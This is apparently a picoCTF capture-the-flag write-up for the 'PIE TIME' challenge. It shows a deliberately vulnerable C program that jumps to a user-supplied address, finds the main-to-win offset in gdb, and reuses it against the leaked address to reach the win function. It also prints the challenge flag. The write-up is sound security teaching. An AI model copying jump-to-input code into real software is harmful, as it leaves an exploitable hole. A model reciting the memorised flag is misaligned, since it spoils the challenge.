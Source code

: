```yaml
---
layout: writeup
title: PIE TIME
tags: Pwn
---
```


## Description

Can you try to get the flag? Beware we have PIE! Connect to the program with netcat:
$ nc rescued-floay.picoctf.net 60696
The program's source code can be downloaded here. The binary can be downloaded here. 

Here is the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

## Solution

This code, prints out the memory address of main, then asks the user to input an address, and that address is then gone to. In order to get the flag, the user needs to input the memory address of the `win` function.

Opening up the compiled binary in `gdb` in order to get the memory address of the `win` and `main` functions.
```bash
$ gdb vuln                
GNU gdb (Debian 16.3-1) 16.3
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from vuln...
(No debugging symbols found in vuln)
(gdb) break main
Breakpoint 1 at 0x1345
(gdb) break win
Breakpoint 2 at 0x12af
```

As can be seen the memory address of `main` was `0x1345` and the memory address of `win` was `0x12af`. This gets a differnce in memory addresses of `150` or `0x96`.

So in order to get the flag, we need to grab the given memory address for `main`, and go back `0x96` memory addresses and then that will run the `win` function.

```bash
$ nc rescued-float.picoctf.net 59371
Address of main: 0x5dfc801b533d
Enter the address to jump to, ex => 0x12345: 0x5dfc801b52a7 # 0x5dfc801b533d - 0x96 = 0x5dfc801b52a7
Your input: 5dfc801b52a7
You won! # It worked, the `win` function is now being run
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_3d38fb4b} # Thats the flag
```

As can be seen, the method worked, as the offset between `main` and `win` is constant even with `PIE` enabled. This is because `PIE` randomises the base memory address that the program runs at, not the memory addresses of the code within the program, this effect can be seen if the executable is run multiple times, as the `main` function and `win` function will have different memory addresses.

Finally as can be seen above, the flag is `picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_3d38fb4b}`
